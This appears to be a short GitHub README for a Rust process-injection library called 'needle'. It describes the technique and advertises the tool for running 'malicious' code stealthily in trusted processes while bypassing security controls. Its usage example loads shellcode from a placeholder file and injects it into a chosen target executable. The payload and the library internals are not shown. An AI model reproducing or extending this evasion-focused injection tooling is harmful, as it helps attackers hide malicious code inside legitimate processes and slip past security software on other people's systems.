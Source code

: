 # Rust Process Injection

> Process injection is a technique used to execute arbitrary code in the address space of a separate live process. It is commonly used in both legitimate applications, such as debugging tools, and malicious activities, such as malware attacks. The main goal of process injection is to manipulate the target process to run the injected code with the same permissions and context as the original process, often to evade detection and security measures.

Allows for running "malicious" code stealthily within the context of trusted processes, bypassing security controls. 

## How to use:
```RUST
use needle::{find_process, inject, Payload};

const SHELL_CODE: &[u8] = include_bytes!("YOUR_PAYLOAD.bin");

fn main() {
    let payload = Payload::from(SHELL_CODE);
    let process = find_process("YOUR_TARGET_PROCESS.exe").expect("Target process not found");
    if let Err(e) = inject(process, payload) {
        println!("Could not inject payload: {}", e);
    }
}
```
